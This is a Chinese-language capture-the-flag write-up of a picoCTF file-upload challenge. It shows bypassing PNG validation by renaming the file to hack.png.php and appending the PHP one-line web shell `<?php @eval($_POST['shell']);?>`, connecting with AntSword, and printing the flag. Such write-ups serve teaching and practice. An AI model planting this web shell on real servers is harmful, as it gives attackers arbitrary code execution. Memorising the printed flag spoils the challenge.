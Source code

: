 ![題目](https://hackmd.io/_uploads/HkocKNtIA.png)

~~秉持著不知道要幹嘛的時候先掃路徑的精神~~，可以找到它的 robots.txt，它其中禁止了兩個路徑，如下:

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

既然它都禁止了，我們就去看看吧 XD。`/uploads/`應該就是它的上船後的文件路徑了，而它 instructions.txt 的內容如下:

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

所以我們知道後端驗證檔案是否為 png 的方法有二，其一為檢查文件後綴名是否為`.png`；其二為驗證文件的 magic bytes，看文件在十六進制中的前幾個位元組是否為`50 4E 47`。

知道了這些信息後，我們先隨便找一張 png 圖片上傳看看吧！（我這邊直接隨便截圖，並命名為`hack.png`）。並且在 upload 的過程中用 Burp suite 去攔截封包，並修改其中的檔案名稱及檔案內容。這邊把檔案名稱改為`hack.png.php`，並在檔案內容的 PNG 以下添加這個[php 一句話木馬](https://xz.aliyun.com/t/6957?time__1311=n4%2BxnD0DRDyD9iDuDRhxBqOoQRQ40xAK5q5vKx&alichlgref=https%3A%2F%2Fwww.google.com%2F)

```php=
<?php @eval($_POST['shell']);?>
```

整個修改完後如下（點開來看可能會比較清楚）:

![image](https://hackmd.io/_uploads/Sy7rFrYU0.png)

上傳完成後，現在這個 shell 就會位於`https://my_instance_url/uploads/hack.png.php`這個位置上啦。

接下來再用[中國蟻劍](https://github.com/AntSwordProject/antSword)這款工具去連接那個 web shell 就可以啦，連接過程如下:

![輸入連接資訊](https://hackmd.io/_uploads/HJo4cSF8A.png)

連接完成後，就可以直接看一下網站的文件，看到以下這個`.txt`應該就是 flag 了。

![貌似是flag的文件](https://hackmd.io/_uploads/SyahqSYLR.png)

![flag出來了](https://hackmd.io/_uploads/HJW1sBtI0.png)

於是我們就成功找到了 flag 啦！如下:

```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}
```

這邊補充一個知識點，來講一下`<?php @eval($_POST['shell']);?>`到底是在做啥。但因為我也不是很熟 php，所以我們來看看 ChatGPT 大神是怎麼回答的吧！

> 當然，這段 PHP 代碼的原理是允許遠程執行伺服器上的 PHP 代碼。這是如何工作的：
>
> 1.  `<?php` 是 PHP 代碼的開始標記。
> 2.  `@eval($_POST['shell']);` 中的 `eval()` 函數執行傳遞給它的字符串作為 PHP 代碼。這裡的代碼來自於 HTTP POST 請求中名為 `shell` 的變量。
> 3.  `@` 符號用來抑制任何錯誤信息，這樣用戶不會看到執行過程中產生的任何錯誤。
> 4.  由於這段代碼執行任意 PHP 代碼，它使得伺服器容易受到攻擊，因此屬於一種非常危險的做法。
>
> 簡言之，任何通過 `shell` 變量傳送的代碼都將被伺服器執行，這可以用於各種目的，包括但不限於數據讀取、文件操作等。

